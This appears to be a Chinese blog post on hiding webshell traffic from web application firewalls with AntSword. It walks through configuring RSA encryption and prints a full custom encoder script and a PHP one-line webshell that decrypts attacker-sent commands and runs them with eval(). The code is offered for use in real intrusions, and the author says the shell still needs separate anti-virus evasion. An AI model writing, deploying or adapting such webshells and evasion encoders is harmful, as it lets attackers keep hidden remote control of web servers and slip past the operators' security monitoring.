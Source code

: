 ### 0x01
在实战中，要想bypass waf成功连接到我们的一句话木马，不仅仅要一句话木马本身免杀，还要对连接一句话木马的流量进行加密混淆处理，流量又分为请求包与返回包，一般的waf会对请求包中的敏感关键词进行拦截，但是有一些waf还会拦截返回包中的恶意关键词，所以，流量加密最好是对往返的流量都进行加密。我们这里主要讨论的就是对流量进行混淆的一些实践

### 0x02
如果使用中国菜刀的话，因为菜刀可定制度不高，我们可以使用一个代理脚本进行流量混淆，这个后面有机会再实验，本文主要是复现一下蚁剑这一工具的rsa流量加密。

蚁剑支持多种编码器，可以对流量进行混淆，但是这些编码器可能早已经加入waf的全家桶了，但是我们还可以通过自定义编码器来实现绕过waf检测的目的，这里主要演示的是通过rsa非对称加密的方式加密流量：

![](img_antsword/rsa.png)

到蚁剑的配置页面，点击rsa配置，可以自动生成公私钥，并且会生成一个使用公钥的php木马，这个木马是不免杀的，我们需要单独对其进行免杀处理。有了公私钥以及木马，我们还需要配置编码器呀，编码器的作用就是将我们的流量用私钥进行加密，然后木马中会使用对应的公钥进行解密。配置编码器，只需要点击“新建编码器”并且选择php rsa

![](img_antsword/php_rsa.png)

这样就生成了一个编码器了，现在已经可以正常使用了。但是，这只是一个初级的编码器，只是对模板模板进行了加密，没有对发送的命令进行加密只是进行了简单的base64编码处理：

![](img_antsword/chuji.png)

而且没有对返回的流量进行加密：

![](img_antsword/response.png)


这还是有可能被waf探测到，所以，我们需要对每个参数都进行加密，需要改一下编码器以及木马：

编码器：
```php
/**
 * php::RSA编码器
 * Create at: 2019/11/04 11:04:42
 */

'use strict';

/*
 * @param  {String} pwd   连接密码
 * @param  {Array}  data  编码器处理前的 payload 数组
 * @return {Array}  data  编码器处理后的 payload 数组
 */
module.exports = (pwd, data, ext={}) => {
    let ret = {};
    for (let _ in data) {
      if (_ === '_') { continue };
      ret[_] = ext['rsa'].encryptPrivate(data[_], 'base64')
    }
    data["_"] = `if((time()-${parseInt((new Date().getTime())/1000)})>5){die();};${data['_']}`;
    let n = Math.ceil(data['_'].length / 80);
    let l = Math.ceil(data['_'].length / n);
    let r = []
    for (var i = 0; n > i; i++) {
        r.push(ext['rsa'].encryptPrivate(data['_'].substr(i * l, l), 'base64'));
    }
    ret[pwd] = r.join("|");
    delete data['_'];
    return ret;
}
```
对应木马(注意这里的公钥要改成你自己的公钥）：

```php
<?php
$cmd = @$_POST['ant'];
$pk = <<<EOF
-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCC9BPAAA3EgNhVX9x5kjXwwbrA
AJSSl46CsjcloOjytsQZoR/Tn0QxI/sCaHJ23/DLviDbhZbYh3aJjXDLrGJXnQvx
BUj1a/YZDq/ZqlibffV54ljOhh6A/IIk6KmXXZBETA9GxI32vqDfqvbnuzyZMWvT
ShEmTzwYh4qW53cN+wIDAQAB
-----END PUBLIC KEY-----
EOF;
$cmds = explode("|", $cmd);
$pk = openssl_pkey_get_public($pk);
$cmd = '';
foreach ($cmds as $value) {
  if (openssl_public_decrypt(base64_decode($value), $de, $pk)) {
    $cmd .= $de;
  }
}
foreach($_POST as $k => $v){
    if (openssl_public_decrypt(base64_decode($v), $de, $pk)) {
       $_POST[$k]=$de;
  }
}
eval($cmd);
}
```

现在，每个参数都加密了：

![](img_antsword/rsa_all.png)

但是，出现了一个问题，就是用这个全加密的套餐的时候，虚拟终端不能执行命令了：

![](img_antsword/false.png)

### 0x03

由于我自己不会node.js，所以文章只是实践了一下别的师傅的文章（而且先知社区的大师傅提到的加密返回流量的解码器，我没有实践成功）。由于不会node.js，出现问题也不能解决，先留个坑，等我学了node.js再来研究。

参考：
https://xz.aliyun.com/t/6701

